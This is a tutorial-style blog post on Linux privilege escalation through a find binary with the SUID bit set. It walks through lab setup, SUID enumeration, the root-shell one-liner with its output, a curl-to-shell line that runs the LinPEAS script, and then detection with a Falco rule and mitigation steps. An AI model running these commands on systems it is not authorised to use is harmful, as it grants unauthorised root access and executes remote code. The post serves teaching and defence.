


## TL;DR

If the `find` binary has the **SUID bit** set, any user can spawn a root shell with a single command:

```bash
find . -exec /bin/sh -p \; -quit
```

This post explains *why* this works, *how* to detect it, and *what* defenders can do about it.

---

## What Is SUID?

**SUID (Set User ID)** is a special Linux file permission.
Normally, a program runs with the **privileges of the user who launches it**.
When SUID is set, the program runs with the **privileges of the file's owner** — regardless of who executes it.

```
-rwsr-xr-x 1 root root /usr/bin/find
      ^
      └─ 's' here means SUID is set
```

| Permission | Meaning |
| :--------- | :------ |
| `rws` (owner) | Owner can read/write/execute; **SUID is active** |
| `rwx` (owner) | Owner can read/write/execute; SUID is **not** active |

> **Why does SUID exist?**
> Legitimate examples include `passwd` (needs root to write `/etc/shadow`) and `ping` (needs raw socket access). The problem arises when powerful utilities like `find`, `bash`, or `python` are mistakenly given this bit.

---

## How the Attack Works



The key insight: `find` runs as **root** (because of SUID), and it spawns `/bin/sh` as a **child process** — inheriting root's privileges.

---

## Lab Setup

To follow along, you can simulate the misconfiguration on a test VM:

```bash
# ⚠️ Do NOT run on a production system
# Run as root to simulate the misconfiguration
chmod u+s /usr/bin/find

# Verify the bit is set
ls -la /usr/bin/find
# Expected: -rwsr-xr-x 1 root root ... /usr/bin/find
```

Switch to a low-privilege user:

```bash
su - testuser
id
# uid=1001(testuser) gid=1001(testuser) groups=1001(testuser)
```

---

## Step 1 — Enumerate SUID Binaries

The first step in any privilege escalation workflow is finding SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Option | Meaning |
| :----- | :------ |
| `/` | Search from filesystem root |
| `-perm -4000` | Match files where the SUID bit is set |
| `-type f` | Files only (not directories) |
| `2>/dev/null` | Suppress "Permission denied" errors |

**Example output:**

```
/usr/bin/find
/usr/bin/passwd
/usr/bin/sudo
/bin/su
```

The interesting entry here is `/usr/bin/find`. Most standard SUID binaries (`passwd`, `su`) are expected — but `find` is not.

---

## Step 2 — Verify on GTFOBins

[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be abused for privilege escalation.

Check the entry for `find` → **SUID** section. It will show:

```bash
find . -exec /bin/sh -p \; -quit
```

```mermaid
sequenceDiagram
    participant U as Low-Privilege User
    participant F as find (running as root via SUID)
    participant S as /bin/sh

    U->>F: find . -exec /bin/sh -p \; -quit
    Note over F: find is SUID root<br/>→ effective UID = 0

    F->>S: exec /bin/sh -p
    Note over S: Spawned as child of find<br/>Inherits eUID = 0

    S->>U: Root shell prompt (#)
    Note over U: uid=1001 euid=0
```

---

## Step 3 — Execute the Exploit

```bash
find . -exec /bin/sh -p \; -quit
```

**What each part does:**

| Part | Role |
| :--- | :--- |
| `find .` | Start search in current directory |
| `-exec ... \;` | Run a command for each result |
| `/bin/sh` | The shell to spawn |
| `-p` | **Preserve** effective UID (do not drop root) |
| `-quit` | Exit `find` after the first match |

**Expected output:**

```
$ find . -exec /bin/sh -p \; -quit
# id
uid=1001(testuser) gid=1001(testuser) euid=0(root)
# whoami
root
```

> **Why is `-p` critical?**
> By default, `sh` will **drop** elevated privileges if the real UID and effective UID differ — a safety feature.
> The `-p` flag disables this behavior and keeps `euid=0`, making the shell fully privileged.

---

## Why This Works: Privilege Inheritance



When a SUID binary executes another program via `exec`, the **effective UID is inherited** by the child process. This is the core mechanism that makes SUID abuse dangerous when the binary can run arbitrary commands.

---

## Real-World Context

This technique appears frequently in CTF machines and real penetration tests. Common scenarios:

- A developer sets SUID on `find` for a deployment script, and forgets to remove it
- A misconfigured Docker image ships with `find` SUID
- A legacy system has not been audited for SUID misconfigurations

Automated enumeration tools that check for this:

```bash
# LinPEAS
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

# LinEnum
./LinEnum.sh

# Manual
find / -perm -4000 -type f 2>/dev/null | xargs ls -la
```

---

## Detection (Blue Team)

### Monitoring SUID Changes

```bash
# Baseline: record all current SUID files
find / -perm -4000 -type f 2>/dev/null > /var/log/suid_baseline.txt

# Daily check: compare against baseline
find / -perm -4000 -type f 2>/dev/null > /tmp/suid_current.txt
diff /var/log/suid_baseline.txt /tmp/suid_current.txt
```

### Relevant Log Events

| Source | What to Watch |
| :----- | :------------ |
| `/var/log/auth.log` | Unexpected `uid=0` sessions |
| auditd | `execve` calls on SUID binaries |
| EDR / Falco | Process lineage: `find` → `sh` with euid=0 |

### Falco Rule Example

```yaml
- rule: SUID Shell Spawn via Find
  desc: find with SUID spawning a shell
  condition: >
    spawned_process and
    proc.name = "sh" and
    proc.pname = "find" and
    user.uid != 0
  output: "SUID shell spawned by find (user=%user.name command=%proc.cmdline)"
  priority: CRITICAL
```

---

## Mitigation

```bash
# Remove the SUID bit from find
chmod u-s /usr/bin/find

# Verify
ls -la /usr/bin/find
# Expected: -rwxr-xr-x (no 's')
```

**General hardening checklist:**

- [ ] Run `find / -perm -4000` regularly and review unexpected entries
- [ ] Use `nosuid` mount option on non-system partitions (e.g., `/tmp`, `/home`)
- [ ] Implement file integrity monitoring (Tripwire, AIDE)
- [ ] Apply principle of least privilege — avoid SUID on powerful utilities

```bash
# Example: mount /tmp with nosuid
mount -o remount,nosuid /tmp
```

---

## Key Takeaways

- **SUID** causes a binary to run as its owner (typically root), not as the calling user
- `find` is dangerous with SUID because it can execute arbitrary commands via `-exec`
- The `-p` flag in `/bin/sh -p` is what prevents the shell from dropping root privileges
- Always audit SUID binaries — anything beyond `passwd`, `su`, `sudo`, `ping` warrants investigation

---

## References

- [GTFOBins: find](https://gtfobins.github.io/gtfobins/find/)
- [HackTricks: SUID](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid)
- [Linux man page: find(1)](https://man7.org/linux/man-pages/man1/find.1.html)
- [Linux man page: sh(1)](https://man7.org/linux/man-pages/man1/sh.1p.html)
- [Falco: Runtime Security](https://falco.org/)
